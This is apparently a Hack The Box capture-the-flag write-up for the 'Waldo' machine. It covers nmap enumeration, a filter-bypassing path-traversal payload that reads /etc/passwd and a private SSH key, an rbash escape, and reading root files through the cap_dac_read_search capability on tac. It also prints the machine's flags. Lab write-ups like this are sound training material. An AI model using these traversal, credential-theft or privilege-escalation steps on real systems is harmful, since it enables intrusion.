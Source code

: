 
# CTF Writeup Waldo - Hack The Box

## 🧪 Machine Name: `Waldo`

**Platform:** Hack The Box  
**IP Address:** `10.10.10.87`  
**Difficulty:** Medium

---

## 🛍️ Overview

Waldo is a medium difficulty machine highlighting the risk of insufficient input validation, restricted shell bypass (rbash escape), and privilege escalation via Linux Capabilities.

---

## 🔍 Enumeration

### 🔎 Nmap Scan

```bash
nmap -p- 10.10.10.87 --min-rate 10000
nmap -p 22,80,8888 10.10.10.87 -sCV -oN nmapscan
```

### 🌐 Web Enumeration

- Found `list manager` web app on port 80 using `list.js`  
- Discovered:
  - `dirRead.php`
  - `fileRead.php`

### 📂 Local File Inclusion (LFI)

```bash
POST /fileRead.php
file=....//....//....//....//etc/passwd
```

Found `nobody` user with `/bin/sh` shell.

### 🔑 SSH Key Discovery

```bash
POST /dirRead.php
path=....//....//....//....//home/nobody/.ssh

POST /fileRead.php
file=....//....//....//....//home/nobody/.ssh/.monitor
```

Retrieved private SSH key.

---

## 🐚 Foothold

### SSH Login as `nobody`

```bash
ssh -i .monitor nobody@10.10.10.87
```

Grabbed `user.txt`:

```bash
cat user.txt
b0e38105e739a6e079ef6a3a0e62fb67
```

### SSH to `monitor` user

Reused `.monitor` key:

```bash
ssh -i .monitor monitor@localhost
```

Found restricted shell `rbash`.  
Escaped with:

```bash
ssh -i .monitor monitor@localhost -t bash --noprofile

# Fix $PATH
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:/bin:$PATH
```

---

## 🔍 Privilege Escalation

### Capability Enumeration

```bash
getcap -r /* 2>/dev/null
```

Found:

```bash
/usr/bin/tac = cap_dac_read_search+ei
```

### Abuse with `tac`

```bash
./tac /root/root.txt
eff2b317239aa0558a7031a66f33f350
```

---

## 🧠 Lessons Learned

- LFI to SSH Key Retrieval
- Restricted Shell (rbash) escape techniques
- Using `getcap` to enumerate Linux Capabilities
- Privesc via `cap_dac_read_search` using `tac`

---

*Writeup by inksec*  
*GitHub: [https://github.com/inkedqt]*
